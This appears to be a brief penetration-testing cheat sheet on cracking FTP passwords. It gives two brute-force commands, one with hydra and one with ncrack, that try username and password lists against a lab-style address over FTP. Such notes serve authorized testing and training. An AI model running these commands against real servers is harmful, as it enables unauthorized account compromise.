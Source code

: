 # Cracking FTP Passwords

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ftp
```
```bash
ncrack -U <usernames list> -P <passwords list> ftp://10.10.10.10
```
